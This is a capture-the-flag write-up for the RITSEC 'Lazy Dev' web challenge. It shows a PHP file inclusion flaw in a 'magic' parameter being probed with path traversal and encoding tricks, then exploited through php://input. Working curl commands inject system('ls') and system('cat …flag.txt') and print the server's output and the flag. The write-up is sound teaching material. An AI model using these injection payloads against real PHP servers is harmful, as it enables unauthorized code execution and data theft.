


# Lazy Dev (400p)
Hi CTF player. If you have any questions about the writeup or challenge. Submit a issue and I will try to help you understand.

Also I might be wrong on some things. Enjoy :) 





There is nothing intresting in the source of the page. The text seem to hint at the parameter 'magic'.

To add a GET parameter we can just try appending this to the end of the URL

```
?magic=asdasd
```
Still the same text:
```
Not what you input eh?
This param is 'magic' man.
```

Don't give up so easily. Let's try an array.

```
?magic[]=
```
And we get:
```
Not what you input eh?
This param is 'magic' man.

Are you trying to hack me? That's mean :(
```
Yes I am ;). What is useful from this is that we have found the correct parameter. Now we just have to exploit it.

Let's see if we can include some random file.
```
?magic=../../../../etc/passwd
```
We get:
```
    ...
	Please stay in this directory, it's for your own safety!
```
Nope....

Remote URL:
```
?magic=http://google.com
```
```
	That doesn't look like my site, who are you? :(
```
Nope.... Hmmm... What else can we do.

### Double URL encoding
```
?magic=`%252e%252e%252fetc%252fpasswd
```
```
URL Encoding? Really? :(
```
Damn... What is this challenge....

### LFI using wrapper

```
$ curl -d "AAAAABBBB" -X POST http://fun.ritsec.club:8007/devsrule.php?magic=php://input
```
```
   Not what you input eh?<br>This param is 'magic' man.<br><br>AAAAABBBB
```
Yay we have command injection using PHP Wrappers.
Lets get the flag.

```bash
$ curl -d "<?=system('ls');?>" -X POST http://fun.ritsec.club:8007/devsrule.php?magic=php://input
Not what you input eh?<br>This param is 'magic' man.<br><br>A.html
AH.html
AHA.html
AHAAHAH.html
AHH.html
AHHHA.html
AHHHHH.html
Ah.html
Ahhh.html
Away.html
Be.html
Believe.html
Call.html
Can.html
Eyes.html
Feel.html
Fireflies.html
Fl4gggg1337.html
Freedom.html
From.html
Gang.html
Get.html
Give.html
Gonna.html
Gucci.html
Ha.html
I.html
If.html
Is.html
Its.html
JokersSomeSortaHack
Just.html
Like.html
Lot.html
Love.html
Me.html
Million.html
More.html
Never.html
Not.html
Older.html
Once.html
Roll.html
Somebody.html
Stars.html
Stronger.html
Take.html
Tell.html
Ten.html
The.html
Theyll.html
To.html
Told.html
Tonight.html
Up.html
Waving.html
When.html
Will.html
World.html
Would.html
You.html
Your.html
devsrule.php
images
index.html
```

And to get the flag:

```bash
$ curl -d "<?=system('cat /home/joker/flag.txt');?>" -X POST http://fun.ritsec.club:8007/devsrule.php?magic=php://input

   RITSEC{WOW_THAT_WAS_A_PAIN_IN_THE_INPUT}
```

Fun challenge and it was definitely a pain in the input..
